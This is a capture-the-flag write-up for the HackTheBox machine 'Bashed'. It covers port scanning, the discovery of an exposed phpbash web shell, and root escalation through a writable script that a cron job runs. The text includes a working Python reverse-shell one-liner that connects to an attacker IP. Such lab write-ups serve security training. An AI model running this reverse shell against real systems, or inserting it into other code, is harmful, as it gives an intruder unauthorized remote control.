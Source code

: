 ```yaml
---
layout: page
title: Bashed - HackTheBox
permalink: /posts/ctf/hackthebox/bashed.html
---
```


# Bashed - HackTheBox
----


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 10.10.10.68`

![image](https://user-images.githubusercontent.com/50459517/109188821-ef447300-7758-11eb-8b6a-224f7a66cb21.png)

Looks like we only have one port open, lets check out the web server.

![image](https://user-images.githubusercontent.com/50459517/109188858-fa979e80-7758-11eb-8809-71336dcbdabb.png)

phpbash.. interesting.  Looking into this it looks like its an open source project for interacting with the server via a web-shell.  I enumerated for directories using dirsearch to see if I could find the file.

![image](https://user-images.githubusercontent.com/50459517/109188898-071bf700-7759-11eb-97f4-d13a9fa78196.png)

After checking out these directories, I found that the **/dev/** directory has the **phpbash.php** file.

![image](https://user-images.githubusercontent.com/50459517/109188937-100cc880-7759-11eb-876c-7fe736edb734.png)

![image](https://user-images.githubusercontent.com/50459517/109188962-18fd9a00-7759-11eb-8092-23bfa8fc16cf.png)

Looks like it works, now lets try to get a reverse shell connected to our local machine so we can get an interactive shell.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![image](https://user-images.githubusercontent.com/50459517/109189039-2fa3f100-7759-11eb-8c8a-1445f47165f7.png)

Now that we have an interactive shell, lets copy LinPEAS over and see what we find

![image](https://user-images.githubusercontent.com/50459517/109189066-3894c280-7759-11eb-8578-0aae8c409230.png)

Looks like we can run any command as **scriptmanager** with no password, so lets run **/bin/bash** to get a shell as this user.

![image](https://user-images.githubusercontent.com/50459517/109189106-40ecfd80-7759-11eb-8c56-91a9ae365b3c.png)

Now that we are the **scriptmanager** user, we can enumerate the machine to see if we can escalate to root.  After some digging we find a directory called **scripts** that has the following files.

![image](https://user-images.githubusercontent.com/50459517/109189133-4a766580-7759-11eb-8be0-2e8809e25daa.png)

Looking at the source code of **[test.py](http://test.py)**, I see that it simply opens the file **test.txt** and writes some data in it.  However **test.txt** is owned by root, so even though we are the owner of the script, we need to run this as root to actually write to the file.  However after a few minutes we notice that the **test.txt** file has a new "last modified" time on it, indicating that we have a cron job executing the **test.py** script.

![image](https://user-images.githubusercontent.com/50459517/109189159-55c99100-7759-11eb-99a8-1f0d542d68f2.png)

Since we have write access to this file, we can modify the file to connect to our local machine.  Since this script is being run as root, we should get a shell back as root.

![image](https://user-images.githubusercontent.com/50459517/109189193-5eba6280-7759-11eb-8602-7602e7ae81c5.png)

![image](https://user-images.githubusercontent.com/50459517/109189220-667a0700-7759-11eb-8265-3d81741bd771.png)
